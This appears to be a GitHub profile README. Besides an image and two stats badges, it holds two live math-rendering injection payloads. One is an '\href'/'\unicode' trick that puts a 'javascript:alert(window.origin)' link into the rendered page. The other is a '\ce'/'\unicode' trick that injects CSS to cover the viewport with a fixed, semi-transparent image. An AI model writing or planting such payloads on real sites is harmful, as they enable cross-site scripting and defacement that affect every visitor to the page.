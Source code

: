 ![lmao](https://mc.confusing.wtf/camol.png)

![beamer](https://stats-murex-eight.vercel.app/api?username=resetd3v&show_icons=true&bg_color=00000000&hide_border=true&theme=github_dark&exclude_repo=stats,zipline,sleekapi,MercuryAuthAPI,SuperMobsV3)
![monker](https://stats-murex-eight.vercel.app/api/top-langs/?username=resetd3v&show_icons=true&bg_color=00000000&hide_border=true&theme=github_dark&exclude_repo=stats,zipline,sleekapi,MercuryAuthAPI,SuperMobsV3)

```math
\href{$\unicode[javascript:alert(window.origin);]{x0000}$}

```math
\ce{$\unicode[goombafont; color:red; pointer-events: none; z-index: -10; position: fixed; top: 0; left: 0; height: 100vh; object-fit: cover; background-size: cover; width: 130vw; opacity: 0.5; background: url('https://camo.githubusercontent.com/3348b69718b247aa6aac8f23fb7469fc99073541108f417bcd0f34c50c4ec89a/68747470733a2f2f6d632e636f6e667573696e672e7774662f63616d6f6c2e706e67');]{x0000}$}

